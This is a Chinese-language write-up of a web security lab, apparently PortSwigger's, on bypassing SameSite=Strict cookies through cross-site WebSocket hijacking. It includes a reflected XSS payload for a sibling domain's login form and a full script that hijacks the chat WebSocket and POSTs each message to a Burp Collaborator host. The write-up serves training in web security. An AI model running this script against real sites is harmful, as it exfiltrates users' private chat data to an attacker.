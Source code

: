 HTTP history选项卡并找到由脚本触发的WebSocket握手请求。这应该是最近的GET/聊天请求。
会话cookie没有随请求一起发送。
在响应中，网站在设置会话cookie时显式指定了SameSite = Strict。这可防止浏览器在跨站点请求中包含这些Cookie
<hr/>
part3:
识别同一“站点”中的其他漏洞
阅览BP代理历史记录，注意对脚本和图像文件等资源请求的响应包含一个Access-Control-Allow-Origin头，它显示了一个兄弟域cms-YOUR-LAB-ID.web-security-academy.net

多了一个cms-
<pre>`https://cms-0a0b005204975a91c040c25f005e0071.web-security-academy.net`</pre>


在浏览器中，访问此新URL以发现其他登录表单


提交一些任意的登录凭据，然后观察用户名是否反映在Invalid username消息的响应中。
尝试通过username参数注入XSS有效负载
<pre>`&lt;script&gt;alert(1)&lt;/script&gt;`</pre>
观察到alert()被调用，确认这是一个可行的反射XSS



将包含XSS有效负载的POST /登录请求发送到Burp Repeater。
在Burp Repeater中，右键单击请求并选择Change request method（更改请求方法），将方法转换为GET。确认它仍然收到相同的响应


再次右键单击请求并选择复制URL。在浏览器中访问此URL并确认仍然可以触发XSS。由于此兄弟域是同一站点的一部分，因此可以使用此XSS来发起CSWSH攻击，而无需通过SameSite限制来缓解


<pre>`http://burp/show/3/wxagw5m9uqkkr2jbvtded0uy2tqww68s`</pre>


<hr/>
part4:
绕过SameSite限制    重新创建之前在利用漏洞攻击服务器上测试的CSWSH脚本。
<pre><code>&lt;script&gt;
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
&lt;/script&gt;

我的是：
&lt;script&gt;
    var ws = new WebSocket('wss://0a0b005204975a91c040c25f005e0071.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://au8jqncpdsi8dhphag64q5qgu70yon.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body: event.data});
    };
&lt;/script&gt;</code></pre>
